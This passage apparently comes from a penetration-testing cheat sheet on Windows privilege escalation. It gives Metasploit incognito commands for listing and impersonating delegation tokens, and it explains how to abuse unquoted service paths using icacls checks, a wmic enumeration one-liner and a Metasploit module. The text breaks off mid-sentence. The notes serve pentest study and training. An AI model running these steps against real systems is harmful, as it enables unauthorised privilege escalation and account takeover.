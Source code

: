3. Change the user through tokens and impersonation

With using the `incognito`  module in metasploit

```bash
meterpreter> use incognito
meterpreter> getuid
meterpreter> list_tokens -u
```

After checking what delegation tokens are available, we can impersonate other accounts (without cracking passwords!)

```bash
meterpreter> impersonate_token <domain\\user>  # user from bevore evaluated accs
meterpreter> getuid  # verify
```

#### unqouted service paths

> Abuse search order of the windows system (search current dir before system paths) and the fact that if there are paths with a space, first matching exe wins! [icacl permissions](https://theitbros.com/using-icacls-to-list-folder-permissions-and-manage-files/)

```powershell
c:\this\is a\bad path\example.exe # unqoted has spaces
"c:\this is better\than above\example.exe" # quoted

icacls c:\  # check if you can write!
icacls c:\this
```

If write permissions are available, we can place our payload in certain fractions of the unqouted path - because search order would access it like this:

1. `c:\this\is.exe`
2. `c:\this\is a\bad.exe`
3. `c:\this\is a\bad path\example.exe`

> Exploit via dropping an `is.exe` under `c:\this\` or a `bad.exe` on path 2

```powershell
# display unqouted service paths with wmic
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Or check the service manually by name

```powershell
sc qc <nameOfService>
```

Using metasploit:

```bash
msf> use exploit/windows/local/unqouted_service_path
```

Or manually replace an exe on that path with your payload an *trigger execution*. Try if you have permissions by:
